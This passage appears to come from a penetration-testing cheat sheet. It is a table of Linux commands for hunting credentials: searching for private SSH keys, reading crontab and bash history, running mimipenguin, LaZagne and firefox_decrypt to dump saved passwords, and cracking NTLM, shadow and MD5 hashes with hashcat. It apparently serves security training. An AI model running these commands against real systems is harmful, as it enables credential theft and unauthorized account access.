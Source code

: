 | `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share";done`                                     | Script that can be used to search for common file types used with scripts.                                                |
| `for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done` | Script used to look for common types of documents.                                                                        |
| `cat /etc/crontab`                                                                                                                                                                                | Uses Linux-based cat command to view the contents of crontab in search for credentials.                                   |
| `ls -la /etc/cron.*/`                                                                                                                                                                             | Uses Linux-based ls -la command to list all files that start with `cron` contained in the etc directory.                  |
| `grep -rnw "PRIVATE KEY" /* 2>/dev/null \| grep ":1"`                                                                                                                                             | Uses Linux-based command grep to search the file system for key terms `PRIVATE KEY` to discover SSH keys.                 |
| `grep -rnw "PRIVATE KEY" /home/* 2>/dev/null \| grep ":1"`                                                                                                                                        | Uses Linux-based grep command to search for the keywords `PRIVATE KEY` within files contained in a user's home directory. |
| `grep -rnw "ssh-rsa" /home/* 2>/dev/null \| grep ":1"`                                                                                                                                            | Uses Linux-based grep command to search for keywords `ssh-rsa` within files contained in a user's home directory.         |
| `tail -n5 /home/*/.bash*`                                                                                                                                                                         | Uses Linux-based tail command to search the through bash history files and output the last 5 lines.                       |
| `python3 mimipenguin.py`                                                                                                                                                                          | Runs Mimipenguin.py using python3.                                                                                        |
| `bash mimipenguin.sh`                                                                                                                                                                             | Runs Mimipenguin.sh using bash.                                                                                           |
| `python2.7 lazagne.py all`                                                                                                                                                                        | Runs Lazagne.py with all modules using python2.7                                                                          |
| `ls -l .mozilla/firefox/ \| grep default`                                                                                                                                                         | Uses Linux-based command to search for credentials stored by Firefox then searches for the keyword `default` using grep.  |
| `cat .mozilla/firefox/1bplpd86.default-release/logins.json \| jq .`                                                                                                                               | Uses Linux-based command cat to search for credentials stored by Firefox in JSON.                                         |
| `python3.9 firefox_decrypt.py`                                                                                                                                                                    | Runs Firefox_decrypt.py to decrypt any encrypted credentials stored by Firefox. Program will run using python3.9.         |
| `python3 lazagne.py browsers`                                                                                                                                                                     | Runs Lazagne.py browsers module using Python 3.                                                                           |
## Cracking Passwords

|**Command**|**Description**|
|---|---|
|`hashcat -m 1000 dumpedhashes.txt /usr/share/wordlists/rockyou.txt`|Uses Hashcat to crack NTLM hashes using a specified wordlist.|
|`hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show`|Uses Hashcat to attempt to crack a single NTLM hash and display the results in the terminal output.|
|`unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes`|Uses unshadow to combine data from passwd.bak and shadow.bk into one single file to prepare for cracking.|
|`hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked`|Uses Hashcat in conjunction with a wordlist to crack the unshadowed hashes and outputs the cracked hashes to a file called unshadowed.cracked.|
|`hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`|Uses Hashcat in conjunction with a word list to crack the md5 hashes in the md5-hashes.list file.|